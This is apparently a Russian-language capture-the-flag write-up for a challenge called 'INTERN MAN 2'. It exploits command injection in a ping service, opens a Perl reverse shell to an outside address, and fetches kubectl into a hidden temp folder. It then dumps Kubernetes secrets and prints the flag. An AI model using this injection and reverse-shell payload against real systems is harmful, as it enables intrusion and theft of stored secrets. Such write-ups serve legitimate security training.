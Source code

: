 # INTERN MAN 2
Заходим на http://91.105.199.185:20199/, снова видим сервис который делает пинг по указанному адресу. Пробуем выполнить произвольные команды:
`;id`.
В ответ получаем вывод команды id.

Получаем реверс шелл в контейнер:
```
;perl -e 'use Socket;$i="1.2.3.4";$p=4221;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

Скачиваем kubectl:
``` shell
mkdir /tmp/.taxidriver && cd /tmp/.taxidriver
curl -LO "https://dl.k8s.io/release/v1.26.3/bin/linux/amd64/kubectl"
chmod u+x kubectl
```

Пробуем получить secrets: 
```shell
./kubectl get secrets
NAME                TYPE     DATA   AGE  
secret-basic-auth   Opaque   1      4d2h
```

Пробуем вывести secrets в формате yaml и видим флаг:
```shell
./kubectl get secrets -o yaml
apiVersion: v1  
items:  
- apiVersion: v1  
 data:  
   username: ZGV0ZWFjdHs4OTNiZmEwZWIzNDIwNmQ0NmMxMDg2ZTc1OTY5NWEwOH0=  
 kind: Secret  
 metadata:  
   annotations:  
     kubectl.kubernetes.io/last-applied-configuration: |  
       {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"secret-basic-auth","  
namespace":"default"},"stringData":{"username":"deteact{893bfa0eb34206d46c1086e759695a08}"}}  
   creationTimestamp: "2023-04-03T10:19:36Z"  
   name: secret-basic-auth  
   namespace: default  
   resourceVersion: "631"  
   uid: 71876c7b-1dd5-4e34-b841-603e73df66d8  
 type: Opaque  
kind: List  
metadata:  
 resourceVersion: ""
 ```

Флаг - deteact{893bfa0eb34206d46c1086e759695a08}